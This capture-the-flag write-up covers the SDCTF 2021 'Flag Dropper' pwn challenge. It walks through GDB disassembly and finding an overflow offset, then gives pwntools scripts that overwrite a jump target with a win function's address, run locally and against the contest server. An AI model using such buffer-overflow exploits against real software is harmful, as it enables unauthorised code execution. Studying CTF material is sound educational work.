 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2021 | Flag Dropper Writeup
desc: Check out our writeup for Flag Dropper for Sdctf 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Sdctf 2021
parent: sdctf_2021
category: pwn
challenge: Flag Dropper
tags: "pwn, twh"
date: 2021-05-10T00:00:00+00:00
last_modified_at: 2021-05-10T00:00:00+00:00
---
```



> Solved by Taz and thewhiteh4t

* After loading the binary in `GDB` we can list the functions
```
info functions
```

![](https://i.imgur.com/rbChpV2.png)

* here we can see that we have a `win` function
* win function disassembled :

```bash
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004005da <+0>:	mov    eax,0x0
   0x00000000004005df <+5>:	lea    rsi,ds:0x60109d
   0x00000000004005e7 <+13>:	lea    rdi,ds:0x601094
   0x00000000004005ef <+21>:	call   0x400440 <fopen@plt>
   0x00000000004005f4 <+26>:	mov    rdx,rax
   0x00000000004005f7 <+29>:	mov    eax,0x0
   0x00000000004005fc <+34>:	movabs rdi,0x601124
   0x0000000000400606 <+44>:	mov    esi,0x16
   0x000000000040060b <+49>:	call   0x400430 <fgets@plt>
   0x0000000000400610 <+54>:	mov    edi,0x1
   0x0000000000400615 <+59>:	mov    eax,0x1
   0x000000000040061a <+64>:	mov    edx,0x16
   0x000000000040061f <+69>:	syscall
   0x0000000000400621 <+71>:	jmp    0x4005d0 <_exit>
   0x0000000000400623 <+73>:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x000000000040062d <+83>:	nop    DWORD PTR [rax]
End of assembler dump.
```

* it is opening and reading some file
* now lets run the binary in GDB with a breakpoint in main

![](https://i.imgur.com/MMVX7lC.png)

* after some instructions we can see **flag.txt**
* I created a file named **flag.txt** with a fake flag inside it
* now I tried to execute the `win` function I found earlier

![](https://i.imgur.com/Zb62G51.png)

* great so win function is opening **flag.txt** and printing the flag
* now I looked for something which can execute the win function

![](https://i.imgur.com/0yJjSWN.png)

* we can see in the `code` section :

```
<main+142>: jmp QWORD PTR [rax]
```

* `jmp` is used for changing the flow of the programing , that means if we can provide the start address of `win` function to `jmp` it will execute it for us

* I found the offset at `73`

![](https://i.imgur.com/bovjmMe.png)

* Now lets find the start address of `win` function

```
gdb-peda$ print win
$1 = {<text variable, no debug info>} 0x4005da <win>
```

* Testing the offset in GDB :

```bash
python -c "print('A' * 73 + 'BBBBBBBB')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```

![](https://i.imgur.com/6hrG88c.png)

* we have a small problem here, it seems like one of the A is extra so the offset should be 72 instead of 73

* Testing the new offset using pwntools with start address of `win` function :

```python
#!usr/bin/env python3

from pwn import *

offset = 72
addr = 0x4005da # Start address of win function

junk = b'A' * 72
le_num = p64(addr) # converted to little endian
buffer = junk + le_num 

elf = ELF('./flagDropper')
p = elf.process()
p.send(buffer)
out = p.recvall()
print(out)

```

* the script above runs the binary locally and sends our payload, here is the output :

![](https://i.imgur.com/fc0v22d.png)

* It works!, now I created a new script to send the payload on the server

```python
#!/usr/bin/env python3
    
from pwn import *
    
host = 'dropper.sdc.tf'
port = 1337
offset = 72
addr = 0x4005da # address of win function
    
junk = b'A' * offset
le_num = p64(addr)
    
buffer = junk + le_num
conn = remote(host, port)
conn.send(buffer)
flag = conn.recvuntil('}').decode()
print(f'\nFLAG : {flag}\n')
conn.close()
```

**OUTPUT :**

![](https://i.imgur.com/pu5NYoX.png)

